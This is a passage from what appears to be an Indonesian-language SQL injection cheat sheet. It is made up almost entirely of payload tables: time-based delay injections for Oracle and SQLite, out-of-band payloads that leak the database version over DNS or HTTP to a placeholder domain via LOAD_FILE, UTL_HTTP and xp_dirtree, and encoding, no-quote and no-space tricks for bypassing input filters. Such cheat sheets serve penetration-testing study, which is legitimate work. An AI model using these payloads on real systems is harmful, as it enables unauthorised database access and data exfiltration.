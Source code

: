 | Query delay murni (Oracle)     | `BEGIN DBMS_PIPE.RECEIVE_MESSAGE('a',5); END;`                                                  |
| Delay jika benar (SQLite)      | `' AND 1=LIKE('ABC',UPPER(HEX(RANDOMBLOB(100000000)))) --`                                      |
| Query delay murni (SQLite)     | `SELECT LIKE('ABC',UPPER(HEX(RANDOMBLOB(100000000))));`                                         |

---

### Out-of-Band (OOB) SQLi

| Deskripsi                  | Payload                                                                                |
| -------------------------- | -------------------------------------------------------------------------------------- |
| DNS Lookup (Windows/MySQL) | `' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT version()),'.nama-domain.com\\a')) --` |
| HTTP Request (Oracle)      | `' AND UTL_HTTP.REQUEST('http://...')`                                                 |
| HTTP Request (MSSQL)       | `; EXEC master..xp_dirtree '\\nama-domain.com\test'; --`                               |

---

## 4. Teknik Bypass & Payload Khusus

### Encoding

| Teknik               | Contoh Input | Contoh Payload    |
| -------------------- | ------------ | ----------------- |
| URL Encoding         | `'`          | `%27 OR 1=1--`    |
| Double URL Encoding  | `'`          | `%2527 OR 1=1--`  |
| Hexadecimal Encoding | `'admin'`    | `0x61646d696e`    |
| Unicode Encoding     | `'`          | `\u0027 OR 1=1--` |

### No-Quote SQL Injection

Tanpa tanda kutip:

```sql
OR 1=1--
OR TRUE--
OR 1=1#
OR 1=1/*
```

### No Spaces Allowed

Jika spasi difilter, gunakan:

- Komentar: `/**/`, `/*!*/`
- Tab: `%09`
- Newline: `%0A`
- Gabungan kata kunci: `UNION/**/SELECT`, `OR/**/1=1--`
